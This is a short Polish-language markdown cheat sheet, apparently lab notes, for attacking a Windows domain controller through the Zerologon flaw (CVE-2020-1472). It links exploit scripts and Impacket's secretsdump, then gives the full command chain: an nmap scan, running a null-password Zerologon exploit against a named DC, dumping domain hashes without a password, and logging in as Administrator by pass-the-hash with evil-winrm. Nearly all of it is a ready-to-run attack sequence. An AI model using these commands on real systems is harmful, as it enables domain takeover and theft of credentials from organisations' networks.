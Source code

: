 # Narzedzia
## Impacket zero logon
https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/master/zerologon_tester.py
<br>https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.py
## Impacket secretdump
https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/secretsdump.py

# Atak
## Skanowanie
            ▪ nmap -sC -sV -A <ip>
## Srodowisko (nie koniecznie)
            ▪ python3 -m pip install virtualenv
            ▪ python3 -m virtualenv impacketEnv
            ▪ source impacketEnv/bin/activate
            ▪ pip install git+https://github.com/SecureAuthCorp/impacket
## Zero logon
            ▪ python3 zeroLogon-NullPass.py DC01 10.10.54.167
            ▪ impacket-secretsdump -just-dc -no-pass DC01\$@10.10.54.167
## Zalogowanie sie przy uzyciu hasha
            ▪  evil-winrm -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568 -i 10.10.154.52
    
    
    
    
    
    
